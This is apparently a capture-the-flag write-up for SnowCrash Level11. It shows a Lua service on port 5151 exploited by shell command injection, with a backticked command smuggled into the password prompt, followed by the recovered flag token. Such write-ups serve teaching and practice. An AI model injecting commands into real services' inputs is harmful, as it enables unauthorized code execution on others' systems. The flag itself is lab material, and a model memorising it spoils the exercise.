 #+TITLE: SnowCrash -- Level11

* lua + shell command injection
 level11@SnowCrash:~$ nc localhost 5151
 Password: `getflag > /tmp/test`
 Erf nope..
 level11@SnowCrash:~$ cat /tmp/test
 Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
 level11@SnowCrash:~$

* FLAG:
** fa6v5ateaw21peobuub8ipe6s
